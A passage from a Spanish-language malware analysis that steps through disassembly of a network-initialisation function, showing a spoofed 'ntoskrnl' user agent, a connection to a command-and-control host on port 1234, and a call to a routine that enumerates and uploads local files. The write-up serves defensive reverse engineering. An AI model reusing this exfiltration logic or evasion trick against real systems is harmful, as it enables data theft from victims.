 La función FUN_00401130 implementa el inicializador de red del malware, estableciendo una conexión HTTP al servidor de comando y control (C2) y llamando luego a FUN_00401000 —función que ya analizamos, encargada de recorrer archivos locales y exfiltrarlos.

🧠 RESUMEN DEL COMPORTAMIENTO
Acción	Descripción
InternetOpenA	Inicializa WinINet para conexiones HTTP.
InternetConnectA	Se conecta al servidor reversing.rocks en el puerto 1234 (0x4D2).
FUN_00401000	Se ejecuta tras la conexión: recorre archivos locales y los envía por red.
InternetCloseHandle	Cierra conexiones abiertas.
exit(1)	Termina el proceso si falla alguna de las fases.
🔍 ANÁLISIS DETALLADO PASO A PASO
1. Inicializa WinINet

0040113a PUSH s_ntoskrnl_0040211c  ; "ntoskrnl" como User-Agent
0040113f CALL [InternetOpenA]

    Utiliza "ntoskrnl" como user-agent spoofing, simulando una cadena del kernel de Windows.

    Resultado en EDI.

2. Comprobación de éxito

00401147 TEST EDI, EDI
00401149 JNZ  -> continua si éxito
0040114b PUSH 1
0040114d CALL exit

    Si InternetOpenA falla, termina.

3. Establece conexión HTTP con C2

0040115d PUSH 0x4d2                ; puerto 1234
00401162 PUSH s_reversing.rocks   ; host remoto
00401168 CALL [InternetConnectA]

    Se conecta al servidor remoto reversing.rocks, puerto 1234 (puerto no estándar → comportamiento sospechoso).

4. Valida conexión

00401170 TEST ESI, ESI
00401172 JNZ -> continúa si éxito
00401174 ... exit(1)

    Si falla, cierra conexión inicial y termina.

5. Llama a la función principal (FUN_00401000)

00401185 CALL FUN_00401000

    En este punto se lanza la lógica principal: escaneo de archivos + envío de datos.

6. Limpieza final

00401191 CALL [InternetCloseHandle] ; Cierra handle ESI (conexión al host)
00401194 CALL [InternetCloseHandle] ; Cierra handle EDI (InternetOpenA)

7. Retorno

00401197 XOR EAX,EAX
00401199 POP ESI
0040119a RET

    Devuelve 0 (success).

☠️ INDICIOS MALICIOSOS  
Evidencia técnica	Comportamiento
InternetOpenA, InternetConnectA	Se conecta a un servidor externo.
"ntoskrnl" como user-agent	Intenta parecer un componente del sistema.
Conexión a reversing.rocks:1234	C2 probablemente malicioso.
Llama a función que escanea archivos y los envía	Exfiltración de datos.
🔄 FLUJO GENERAL

[InternetOpenA ("ntoskrnl")] → [InternetConnectA ("reversing.rocks", 1234)] 
  └─> Si éxito → [FUN_00401000: Enumeración + exfiltración]
        └─> [FindFirstFileA → HttpOpenRequestA → InternetWriteFile ...]
  └─> Luego cierra todo y retorna 0

✅ Conclusión

Esta función sirve como fase de inicialización de red del malware, y es claramente parte de una infraestructura de C2 (comando y control):

    El binario establece una conexión a internet y sube archivos locales a un dominio externo.

    Emplea API legítimas de Windows para ello, lo que lo hace más evasivo frente a antivirus.
